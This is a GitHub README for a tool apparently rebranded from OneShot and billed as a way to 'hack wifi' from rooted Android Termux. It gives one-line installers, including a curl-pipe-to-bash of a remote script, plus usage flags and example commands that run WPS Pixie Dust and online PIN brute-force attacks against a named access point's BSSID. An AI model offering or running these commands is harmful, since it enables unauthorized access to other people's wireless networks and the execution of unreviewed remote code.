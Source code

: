 ### farhan_wifihack
<p align="center"><img src="https://i.postimg.cc/dVkhTpFR/wifi-hacking-new.png"></p>


### wifi-hack
<p align="center"><img src="https://i.ibb.co/b1qqnbS/Photo-Lab-M-W-20231004-231206.jpg"></p>

[![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/downloads/release/python-2714/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux%20%7C%20Android-yellowgreen.svg)](https://termux.com/)

### Hack wifi using Termux (rooted)
    
- [Requirements]
  - [Python](https://www.python.org)
  - [Pixiewps](https://www.kali.org/tools/pixiewps/)
  - [Wpa-supplicant](https://wiki.archlinux.org/title/wpa_supplicant)

### How to update WifiHack
To check for updates and update, run the following command:
```
(cd farhan_wifihack && git pull)
```

# farhan_wifihack_Termux_installer/LINK
```
 https://github.com/Gtajisan/farhan_wifihack_Installer
 ```



# Overview
**farhan_wifihack** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).

Please note that root access is required.  

### Installation one line:

```bash
apt update && apt upgrade && pkg install tsu && pkg install python && pkg install git && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw openssl && termux-setup-storage && curl -sSf https://raw.githubusercontent.com/gtajisan/farhan_wifihack_Termux_installer/master/installer.sh | bash && git clone --depth 1 https://github.com/gtajisan/farhan_wifihack farhan_wifihack && sudo python farhan_wifihack/farhan_wifihack.py -i wlan0 --iface-down -K
```


## [Termux](https://termux.com/)
Please note that root access is required.  

### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="https://i.ibb.co/zSdnKQ4/Screenshot-20231014-180419-Termux.png"></



#### Using installer
 ```
 curl -sSf https://raw.githubusercontent.com/gtajisan/farhan_wifihack_Termux_installer/master/installer.sh | bash
 ```
#### Manually
**Installing requirements**
 ```
pkg update
pkg upgrade
pkg install tsu
pkg install python
pkg install git
pkg install -y root-repo
pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
termux-setup-storage
 ```
**Getting farhan_wifihack**
 ```
 git clone --depth 1 https://github.com/gtajisan/farhan_wifihack farhan_wifihack
 ```
#### Running
 ```
 sudo python farhan_wifihack/farhan_wifihack.py -i wlan0 --iface-down -K
 ```

## [Termux](https://termux.com/)


# Usage
```
 farhan_wifihack.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 farhan_wifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 farhan_wifihack.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 farhan_wifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 farhan_wifihack.py -i wlan0 --pbc
 ```

## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running farhan_wifihackwith ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running farhan_wifihackwith the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` for developing Pixiewps.
* binod-xd` for inspire.
* support on oneshot.


